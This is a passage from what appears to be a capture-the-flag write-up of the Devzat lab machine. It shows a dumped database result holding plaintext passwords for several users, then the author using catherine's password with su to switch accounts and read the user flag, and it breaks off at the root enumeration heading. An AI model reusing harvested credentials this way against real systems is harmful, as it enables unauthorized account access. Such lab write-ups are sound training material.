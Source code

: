 ```
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ]
        }
    ]
}

```

### su

There’s a password for catherine, and it works for that account on the box:

```

patrick@devzat:~$ su - catherine
Password: 
catherine@devzat:~$

```

I can now read `user.txt`:

```

catherine@devzat:~$ cat user.txt
5394ba2d************************

```

## Shell as root

### Enumeration
